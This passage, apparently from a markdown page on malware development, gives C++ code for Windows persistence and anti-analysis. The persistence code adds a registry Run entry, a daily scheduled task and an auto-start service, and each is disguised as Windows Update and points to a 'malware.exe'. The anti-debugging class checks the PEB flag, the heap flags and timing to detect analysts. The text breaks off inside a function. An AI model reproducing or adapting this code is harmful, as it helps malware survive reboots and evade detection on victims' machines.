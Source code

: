 ### **2. Persistence Mechanisms**
```cpp
// Registry Autorun
void addRegistryPersistence(const std::string& exePath) {
    HKEY hKey;
    RegOpenKeyEx(HKEY_CURRENT_USER, 
                 L"Software\\Microsoft\\Windows\\CurrentVersion\\Run", 
                 0, KEY_WRITE, &hKey);
    RegSetValueEx(hKey, L"WindowsUpdater", 0, REG_SZ, 
                  (BYTE*)exePath.c_str(), exePath.length());
    RegCloseKey(hKey);
}

// Scheduled Task
void createScheduledTask() {
    system("schtasks /create /tn \"Windows Update Check\" /tr \"C:\\Windows\\System32\\malware.exe\" /sc daily /st 09:00");
}

// Service Installation
void installService() {
    SC_HANDLE hSCM = OpenSCManager(NULL, NULL, SC_MANAGER_CREATE_SERVICE);
    SC_HANDLE hService = CreateService(hSCM, L"WindowsUpdateSvc", L"Windows Update Service",
                                      SERVICE_ALL_ACCESS, SERVICE_WIN32_OWN_PROCESS,
                                      SERVICE_AUTO_START, SERVICE_ERROR_NORMAL,
                                      L"C:\\Windows\\System32\\malware.exe", NULL, NULL, NULL, NULL, NULL);
}

// WMI Event Subscription
void createWMIPersistence() {
    // Complex WMI-based persistence
    // Survives system reboots and is harder to detect
}
```

---

## 🔍 **Anti-Analysis Techniques**

### **1. Anti-Debugging**
```cpp
class AntiDebug {
public:
    static bool isDebuggerPresent() {
        // Check PEB flag
        if (IsDebuggerPresent()) return true;
        
        // Check debug heap
        HANDLE hHeap = GetProcessHeap();
        DWORD heapFlags = *(DWORD*)((BYTE*)hHeap + 0x40);
        if (heapFlags & 0x00000002) return true;
        
        // Timing checks
        DWORD start = GetTickCount();
        Sleep(100);
        DWORD end = GetTickCount();
        if ((end - start) < 90) return true; // Debugger acceleration
        
        return false;
    }
    
    static void antiDebugTricks() {
```